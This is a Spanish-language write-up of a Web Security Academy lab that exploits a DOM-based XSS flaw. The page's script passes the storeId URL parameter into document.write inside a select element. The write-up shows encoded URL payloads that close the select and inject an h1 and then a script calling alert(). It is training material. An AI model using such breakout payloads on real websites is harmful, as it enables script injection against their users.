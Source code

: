 This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search` which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the `alert` function.



Para resolver este lab primero le echamos un vistazo al script de la pagina de la tienda

![[Pasted image 20250514162127.png]]

```java
var stores = ["London", "Paris", "Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');

document.write('<select name="storeId">');

if (store) {
    document.write('<option selected>' + store + '</option>');
}

for (var i = 0; i < stores.length; i++) {
    if (stores[i] === store) {
        continue;
    }
    document.write('<option>' + stores[i] + '</option>');
}

document.write('</select>');
```

Nos fijamos en como maneja el servidor el `stores`. observamos que solo formatea bien el `store`


```http
https://0a9400a1038e928881e6b73f00e700ef.web-security-academy.net/product?productId=17&storeId=michigan
```

![[Pasted image 20250514163013.png]]

Podemos escapar de la siguiente manera

```http
https://0a9400a1038e928881e6b73f00e700ef.web-security-academy.net/product?productId=17&storeId=%22/%3E%3C/select%3E%3Ch1%3Ehola%3C/h1%3E
```

![[Pasted image 20250514163325.png]]


El xss :
```http
https://0a9400a1038e928881e6b73f00e700ef.web-security-academy.net/product?productId=17&storeId=%22/%3E%3C/select%3E%3Cscript%3Ealert()%3C/script%3E
```